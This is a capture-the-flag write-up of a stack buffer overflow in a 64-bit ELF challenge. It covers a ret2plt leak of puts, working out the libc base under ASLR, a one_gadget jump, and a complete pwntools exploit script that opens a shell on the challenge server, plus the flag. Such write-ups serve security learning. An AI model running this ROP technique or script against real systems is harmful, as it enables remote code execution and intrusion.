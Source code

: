 ## exploit

In this challenge we have to exploit ELF 64 bit not stripped that seems to let an attacker perform ROP attack:
```
This is easier than you would think...
Santa allowed you to ROP me!
ssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssss
Segmentation fault (core dumped)
```
with checksec is quite clear that we can perform classic buffer overflow attack without consider canary:
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```
At this point ret2plt seems to be the most simple choice but the programs does not perform any `system`. The second problem is that NX bit is enabled so I could consider to execute my shellcode only if I could perform an mprotect call and let some section being executable, moreover I didn't know if the remote server has ASLR enable and must place shellcode into `.bss` section. In order to discover that I could print with ret2plt GOT entry for one function called by the program and yet resolved (for istance put) and try to discover that.

```
This is easier than you would think...
Santa allowed you to ROP me!
puts 0x7ff28b205460

This is easier than you would think...
Santa allowed you to ROP me!
puts 0x7fd40dcfb940
```
Unfortunatly ASLR is enabled so the right things to do after that is a chain that:
* leak GOT entry for libc function yet resolved
* discover libc version in order to obtain base address for the right libc version
* using one_gadget and looking for magic gadget offset right to the version of libc discovered

The other problem is that the program perform the gets one time and we waste that to leak puts GOT entry, so the things we could do is perform a ret2plt to puts function and discover the address resolved, after that jumping at the start of the program in order to perform another buffer overflow and jump to our magic gadget. 

The leak reveal that remote server make use of different libc version, after some attempts the exploit worked perfectly performing jump to right magic gadget for one the version chosen after see the last bytes of puts address:

```python
#!/usr/bin/env python3

from pwn import *

s=remote('199.247.6.180',10005)
print(s.recvuntil('\n'))
print(s.recvuntil('\n'))


s.send("a"*40+"\x7b\x07\x40\x00\x00\x00\x00\x00"+"\x18\x10\x60\x00\x00\x00\x00\x00"+"\x50\x05\x40\x00\x00\x00\x00\x00"+"\x76\x06\x40\x00\x00\x00\x00\x00"*2+"\n")

out=s.recv(6)+b"\x00\x00"
lputs=u64(out)
print("puts "+hex(lputs))
base_addr=lputs-0x06fd60
magic=base_addr+0xea36d
print(s.recvuntil('\n'))
print(s.recvuntil('\n'))
s.send(p64(magic)*8+b"\n")

s.interactive()
```
##### flag: X-MAS{r4nd0m_chr157m45_pr353n75_4r3_50_fun}



